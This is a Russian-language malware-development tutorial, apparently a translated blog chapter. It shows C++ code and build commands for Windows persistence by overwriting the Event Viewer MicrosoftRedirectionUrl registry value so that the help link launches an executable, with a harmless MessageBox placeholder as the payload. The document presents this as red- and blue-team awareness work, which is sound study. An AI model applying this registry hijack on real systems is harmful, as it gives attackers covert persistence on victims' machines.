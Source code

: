 \newpage
\subsection{80. разработка вредоносного ПО: закрепление (persistence) - часть 14. Ссылка на справку в Event Viewer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через замену ссылки на справку в Windows Event Viewer.     

### ссылка на справку в Event Viewer

Event Viewer в Windows существует уже более десяти лет. Он анализирует ограниченное количество журналов, которые Windows ведет на вашем компьютере. Эти журналы представляют собой текстовые файлы в формате `XML`, содержащие обычный текст.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

В качестве части своего интерфейса Event Viewer предоставляет ссылку на *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

При нажатии открывается стандартная справочная ссылка Microsoft, которая определена в реестре Windows по адресу `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

Как вы, возможно, догадались, логично предположить, что значение ключа `MicrosoftRedirectionURL` можно изменить в интересах злоумышленника. В этом и заключается трюк.    

### практический пример

Рассмотрим практический пример. Во-первых, как обычно, создадим вредоносное приложение, `meow-meow` "вредоносное ПО" (`hack.cpp`):    

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows через
обновление ссылки на справку в Event Viewer
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Затем создаем программу для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста: просто обновляем значение ключа реестра на `file://Z:\2022-10-09-malware-pers-14\hack.exe`.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем "вредоносное ПО":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

Проверяем корректность:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

Теперь компилируем скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Проверяем стандартные значения ключей реестра на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

Затем также запускаем на машине жертвы - `Windows 10 x64`:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    

Наконец, снова пробуем нажать на ссылку *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

Это означает, что при нажатии на ссылку запускается `mmc.exe`, который, в свою очередь, инициирует вредоносное поведение.    

Для отката, после окончания экспериментов, выполните:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v \
"MicrosoftRedirectionUrl" /t REG_SZ /d \
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

Или просто восстановите виртуальную машину.     

> Это метод закрепления на уровне администратора, поэтому он работает только при наличии прав администратора.       

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
